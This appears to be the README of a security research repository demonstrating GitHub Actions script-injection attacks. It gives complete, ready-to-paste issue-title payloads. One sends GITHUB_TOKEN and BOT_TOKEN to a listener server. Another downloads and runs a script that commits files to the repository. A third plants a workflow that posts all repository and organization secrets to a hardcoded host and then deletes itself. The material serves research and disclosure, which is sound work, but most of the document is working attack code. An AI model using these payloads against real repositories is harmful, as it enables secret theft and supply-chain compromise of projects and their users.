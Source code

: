 # Github Actions Injection Vulnerability Demo

This repository contains several utility scripts and Github Actions we used in our research for [Github Actions injection vulnerabilities](https://cycode.com/blog/github-actions-vulnerabilities/).
We presented this talk on several occasions:
- SupplyChainSecurityCon 2022 (part of OpenSourceSummit NA) - [Github Actions Security Landscape](https://www.youtube.com/watch?v=dTrHKa9mbdQ)
- DevSecCon24 - [Github Actions Security Landscape](https://www.youtube.com/watch?v=zr4nka52Fk0)

## Article Outline

Our research blog describes how we found several popular open source projects vulnerable to [script injection attack](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#good-practices-for-mitigating-script-injection-attacks) through user-controlled input, such as Github issue title and body.
We deeply investigated this threat and tried to understand the implications of such a build compromise. We quickly understood that the consequences could be pretty disastrous:
- The attacker can exfiltrate sensitive tokens from the build service (such as AWS tokens, docker hub, etc.)
- The attacker can commit new code to the repository and cause a potential supply-chain attack on the product's users.

We also show how to mitigate such attacks and their consequences.

## Demos

As explained in the article, the demos show the possible implications of a malicious attacker that gained control over the build process.
The vulnerable workflow we'll use through the demos is [vuln](.github/workflows/vuln.yml), which will be triggered whenever a new issue is created.

### Demo 1 - Exfiltrating sensitive secrets

First, you must set up a server to listen to the exfiltrated secrets in a lab environment. You can use our https://github.com/CycodeLabs/simple-http-logger for that.

Then, change the `<LAB_URL>` parameter with your lab server URL, and create an issue with the following title:

```bash
Innocent bug" && curl -d “token=$GITHUB_TOKEN” <LAB_URL> && sudo docker run --rm -d -v /home/runner/work/_temp:/app/monitored cycodelabs/actionmonitor -u <LAB_URL> && sleep 2 && echo "
```

This payload consists of two commands:

```bash
# Exfiltrating GITHUB_TOKEN
curl -d “token=$GITHUB_TOKEN” <LAB_URL>

# Exfiltrating BOT_TOKEN through the script that comes after
sudo docker run --rm -d -v /home/runner/work/_temp:/app/monitored cycodelabs/actionmonitor -u <LAB_URL>
```

This script uses another tool we developed - [gh-action-shell-monitor](https://github.com/CycodeLabs/gh-action-shell-monitor). This tool listens for any shell files modified in the specified directory and sends them to a designated server.
The result would be receiving the complete script on our lab server and `BOT_TOKEN`.

### Demo 2 - Committing to the repository

We can use simple git commands and commit a "malicious" file into the repository during the build process.

The issue title for the demo:

```bash
Innocent bug" && curl -o /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/scripts/commit_file.sh && chmod +x /tmp/script.sh && /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/files/file_to_commit innocent_file && echo "
```

This payload consists of the following commands:

```bash
# Fetching the commit script
curl -o /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/scripts/commit_file.sh

chmod +x /tmp/script.sh

# Running it together with our "malicious" file
/tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/files/file_to_commit innocent_file
```

### Demo 3 - Exfiltrating repository and organization secrets

In this demo, we used the commit capability to get the repository/organization secrets that weren't necessarily defined in that specific workflow but were defined for that repository.

First, we need to set up the server in the first demo.

The issue title for the demo:

```bash
# Send as issue body because issue title is capped with the character limit
" && WORKFLOW_CONTENT=$(curl -s https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/actions/expose_secrets.yml | base64 -w 0) && curl -X PUT -H "Authorization: Token $GITHUB_TOKEN" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/innocent_workflow.yml -d '{"message":"innocent commit message","committer":{"name":"Maintainer Name","email":"maintainer@gmail.com"},"content":"'"$WORKFLOW_CONTENT"'"}' && echo "
```

This payload consists of the following command:

```bash
# Fetching the workflow from our repository
WORKFLOW_CONTENT=$(curl -s https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/actions/expose_secrets.yml | base64 -w 0)

# Committing it to the current repository
curl -X PUT -H "Authorization: Token $GITHUB_TOKEN" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/innocent_workflow.yml -d '{"message":"innocent commit message","committer":{"name":"Maintainer Name","email":"maintainer@gmail.com"},"content":"'"$WORKFLOW_CONTENT"'"}'
```

In the first command, we fetch our pre-created custom workflow [actions/expose_secrets.yml](actions/expose_secrets.yml)

```yaml
name: Exposing ALL Secrets

on:
  workflow_run:
    workflows: ["Vuln"]

env:
  WORKFLOW_NAME: "innocent_workflow.yml"
  MAINTAINER_NAME: "Maintainer Name"
  MAINTAINER_EMAIL: "maintainer@gmail.com"
  COMMIT_MESSAGE: "innocent commit message"
  URL: http://lab.cycode.com:64375

jobs:
  expose_secrets:
    runs-on: ubuntu-latest

    steps:
      - run: |
          echo "${{ toJSON(secrets) }}" > .secrets
          curl -X POST --data "@.secrets" $URL
      - run: |
          SHA=$(curl -X GET -H "Authorization: Token ${{ github.token }}" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/$WORKFLOW_NAME -s | jq -r .sha)
          curl -X DELETE -H "Authorization: Token ${{ github.token }}" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/$WORKFLOW_NAME -d '{"message":"$COMMIT_MESSAGE","committer":{"name":"$MAINTAINER_NAME","email":"$MAINTAINER_EMAIL"}, "sha":"'"${SHA}"'"}' 
```

So the procedure of the demo is the following:

- We inject our malicious payload into the `Vuln` workflow.
- The `Vuln` workflow invokes Github API to commit a new workflow, the `Exposing ALL Secrets` workflow.
- The `Vuln` workflow ends.
- Because of `workflow_run:`, the Github Actions service will trigger `Exposing ALL Secrets` when `Vuln` ends.
- `Exposing ALL Secrets` workflow sends all secrets to a hardcoded server.
- `Exposing ALL Secrets` workflow deletes itself.
